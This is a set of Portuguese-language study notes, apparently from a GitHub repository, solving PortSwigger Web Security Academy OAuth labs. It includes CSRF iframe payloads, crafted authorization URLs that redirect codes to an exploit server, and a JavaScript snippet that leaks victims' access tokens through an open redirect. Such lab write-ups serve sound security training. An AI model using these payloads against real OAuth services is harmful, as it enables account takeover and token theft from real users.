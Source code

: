 # OAuth

OAuth normalmente aparece na página de Sign-in. A request mais provável de ser vulnerável é `/auth?client_id=...`.

Probabilidade: $${\color{lightgreen}baixa}$$.

<br>

## Laboratórios

**Authentication Bypass via OAuth Implicit Flow**

Intercepte todo o processo de autenticação por oAuth e observe que a request POST /authenticate contém um e-mail.

Troque-o para o e-mail da vítima e abra o resultado dessa request no navegador.

<br>
<br>

**Forced OAuth Profile Linking**

Analise o preceso de anexar mídia social e observe que a request com o código `oauth` não possui o parâmetro `state`.
```
/oauth-linking?code=f4vwrTOuewZl1c57xpceroEU5sItRCyy9mFjxCLhmk1
```

Começe um processo para linkar a social media, pegue o código `oauth` e drope a request para não utilizá-lo.

Crie um iframe para explorar isso com CSRF:
```
<iframe src="https://0abc003804e351ab8225664700de000f.web-security-academy.net/oauth-linking?code=f4vwrTOuewZl1c57xpceroEU5sItRCyy9mFjxCLhmk1"></iframe>
```

<br>
<br>

**OAuth Account Hijacking via redirect_uri**

Mude o redirect_uri para o servidor de exploit.

O CSRF será:
```
<iframe src="https://oauth-0a64002304635a12826490d402450089.oauth-server.net/auth?client_id=b6ajkjihwmqj6pxjov0z8&redirect_uri=https://exploit-0ad100fa040b5a2c82f7918c01ce0085.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

Utilize o token capturado para logar em:
```
https://your-lab-id.web-security-academy.net/oauth-callback?code=CODE
```

<br>
<br>

**Stealing OAuth Access Tokens via an Open Redirect**

Confirme que o parâmetro `redirect_uri` está vulnerável a path traversal:
```
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1
```

Encontre o Open Redirect em `GET /post/next?path=[...]` e use-o para redirecioanr o usuário para o servidor de exploit.
```
https://oauth-0a6e00b1037acb5488803fab02f200d8.oauth-server.net/auth?client_id=j03v9dtv262k7l0vkb1uu&redirect_uri=https://0a9600540369cbe58856410e00a700c7.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a44004e0379cbe5887d403b01db00d7.exploit-server.net/exploit&response_type=token&nonce=376828613&scope=openid%20profile%20email
```

O seguinte script vai vazar o access token no parâmetro da URL ao redirecionar usuarios para o servidor de exploit por um segundo:
```html
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

Agora precisamos criar um exploit que primeiro força a vítima a visitar a URL maliciosa e depois executar o script para roubar o access token:
```html
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

No Repeater, vá para a request GET /me e substitua o token no header Authorization: Bearer com o que você acabou de copiar para obter a chave de API da vítima.
